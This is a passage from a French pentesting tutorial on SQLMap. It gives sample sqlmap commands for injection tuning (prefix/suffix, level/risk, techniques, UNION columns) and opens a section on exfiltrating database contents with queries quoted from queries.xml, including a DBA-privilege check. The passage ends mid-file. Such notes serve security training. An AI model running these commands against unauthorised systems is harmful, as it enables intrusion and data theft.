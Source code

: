 * Utilisez `-v 3` ou plus pour augmenter la verbosité et observer les charges testées.
* Par défaut, SQLMap utilise environ 72 charges utiles. Avec `--level=5` et `--risk=3`, ce nombre peut dépasser 7 800 !

***

#### <mark style="color:blue;">**Résumé des commandes importantes**</mark>

```bash
# Utilisation de base
sqlmap -u "www.example.com/?q=test"

# Avec préfixe/suffixe personnalisés
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"

# Ajuster le niveau et le risque
sqlmap -u "www.example.com/?q=test" --level=5 --risk=3

# Techniques spécifiques
sqlmap -u "www.example.com/?q=test" --technique=BEU

# Détection basée sur un code HTTP
sqlmap -u "www.example.com/?q=test" --code=200

# Optimisation UNION SQLi
sqlmap -u "www.example.com/?q=test" --union-cols=5 --union-char='a'
```

***

Voici la traduction en français de votre texte :

***

## <mark style="color:red;">Database Enumeration</mark>

***

### <mark style="color:blue;">Exfiltration des données avec SQLMap</mark>

Pour ce faire, SQLMap dispose d’un ensemble prédéfini de requêtes adaptées à tous les SGBD (systèmes de gestion de bases de données) qu’il prend en charge. Chaque entrée correspond à une requête SQL spécifique à exécuter sur la cible pour récupérer le contenu souhaité. Par exemple, les extraits suivants, issus de `queries.xml` pour un SGBD MySQL, montrent comment SQLMap formule ces requêtes :

{% code overflow="wrap" fullWidth="true" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>

<root>
    <dbms value="MySQL">
        <cast query="CAST(%s AS NCHAR)"/>
        <length query="CHAR_LENGTH(%s)"/>
        <isnull query="IFNULL(%s,' ')"/>
        <banner query="VERSION()"/>
        <current_user query="CURRENT_USER()"/>
        <current_db query="DATABASE()"/>
        <hostname query="@@HOSTNAME"/>
        <table_comment query="SELECT table_comment FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='%s' AND table_name='%s'"/>
        <column_comment query="SELECT column_comment FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema='%s' AND table_name='%s' AND column_name='%s'"/>
        <is_dba query="(SELECT super_priv FROM mysql.user WHERE user='%s' LIMIT 0,1)='Y'"/>
        <check_udf query="(SELECT name FROM mysql.func WHERE name='%s' LIMIT 0,1)='%s'"/>
```